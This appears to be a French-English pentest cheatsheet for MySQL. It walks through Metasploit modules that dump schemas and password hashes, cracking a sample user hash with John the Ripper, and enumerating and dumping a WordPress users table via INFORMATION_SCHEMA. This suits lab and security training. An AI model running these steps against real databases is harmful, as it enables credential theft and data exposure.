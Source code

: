 # MySQL	
***RDBMS*** : Relational DataBase Management System
***SGBD*** :  System de Gestion de Base de Données  

##### Connect to MYSQL remote server
```bash
mysql -u [username] -p -h [host ip]
```
**View a .sql file (depuis mysql) /!\ il fait être dans le dosser du fichier**
```bash
source file.sql
```

## SQL CHEATSHEET :
```mysql
SHOW DATABASES;
USE db_name;
SHOW TABLES;
DESCRIBE table_name;
```


## Exemple d'exploit avec metasploit
Pour cet exemple, il nous faut des credentials valides
### Test des credentials
```bash
mysql -h [IP] -u [username] -p
```

### Utilisation de MetaSploit :
(Danc l'exemple ci-dessous, la version de MySQL est vulnérable aux payloads qui suivent)
Lancer MSF :
```bash
msfconsole
```
Exploit :  
```bash
search mysql_sql
use 0
set password/rhosts/username
run
result -> 5.7.29-0ubuntu0.18.04.1
```
renvoie les noms des bases de données


```bash
search mysql_schemadump
use 0
set options
run
```
result -> all databases and columns name and type


```bash
search mysql_hashdump
use 1
set options
run
```
results -> all usernames and passwords hashes

### Crash hashes

```carl:*EA031893AA21444B170FC2162A56978B8CEECE18```
```bash
john hash.txt
```

***Les mots de passe sont très souvent réutilisés***


## Injection and Dump:
Using MySQL Service

***Show all db names***
```sql
SELECT DISTINCT table_schema FROM INFORMATION_SCHEMA.tables;
```


| table_schema       |
| :----------------- |
| information_schema |
| sys                |
| wp1b_itconnect     |
| performance_schema |
| mysql              |

In this exemple, only wp1b_itconnect is a user-made DB.  
Others are defaults  
*** Show all tables from a database***  
```sql
SELECT DISTINCT TABLE_NAME FROM INFORMATION_SCHEMA.tables WHERE table_Schema LIKE 'wp%';
```

| TABLE_NAME               |
| :----------------------- |
| wp_term_taxonomy         |
| wp_usermeta              |
| wp_terms                 |
| web14_terms              |
| web14_termmeta           |
| wp_term_relationships    |
| web14_posts              |
| web14_links              |
| web14_postmeta           |
| web14_usermeta           |
| wp_postmeta              |
| wp_comments              |
| web14_users              |
| wp_termmeta              |
| wp_options               |
| web14_term_relationships |
| wp_users                 |
| wp_posts                 |
| wp_links                 |
| web14_comments           |
| web14_term_taxonomy      |
| web14_options            |
| web14_commentmeta        |
| wp_commentmeta           |

This output come from a WordPress DB.    
By default, user informations are stored in wp_users  

**Show all columns names from a table***
```sql
SELECT DISTINCT COLUMN_NAME FROM INFORMATION_SCHEMA.columns WHERE table_Schema LIKE 'wp%' AND TABLE_NAME LIKE 'wp_users';
```

| COLUMN_NAME         |
|:------------------- |
| ID                  |
| user_login          |
| user_pass           |
| user_nicename       |
| user_email          |
| user_url            |
| user_registered     |
| user_activation_key |
| user_status         |
| display_name        |

This is a default WordPress DB example.


***DUMP Database***  
Change current DB
```sql
USE wp1b_itconnect;
```
DUMP data
```sql
SELECT * FROM wp_users;
```